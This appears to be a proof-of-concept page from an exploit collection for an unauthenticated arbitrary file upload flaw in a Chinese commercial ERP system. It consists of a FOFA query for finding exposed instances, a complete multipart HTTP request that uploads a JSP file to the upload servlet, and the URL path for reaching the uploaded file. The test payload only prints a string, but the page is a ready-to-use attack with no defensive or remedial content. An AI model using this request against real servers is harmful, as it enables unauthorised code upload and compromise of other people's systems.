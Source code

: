 ## 云时空社会化商业ERP任意文件上传

## fofa
```
app="云时空社会化商业ERP系统"
```

## poc
```
POST /servlet/fileupload/gpy HTTP/1.1
Host: ip:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=4eea98d02AEa93f60ea08dE3C18A1388
Content-Length: 220

--4eea98d02AEa93f60ea08dE3C18A1388
Content-Disposition: form-data; name="file"; filename="random_str.jsp"
Content-Type: application/octet-stream

<% out.println("random_str"); %>
--4eea98d02AEa93f60ea08dE3C18A1388--
```
![0a88234fdcf3709606fc26191caf848e](https://github.com/wy876/POC/assets/139549762/a7eb2358-6f1c-4d09-b76a-03a96a453da6)

访问上传文件
/uploads/pics/2023-12-9/random_str.jsp

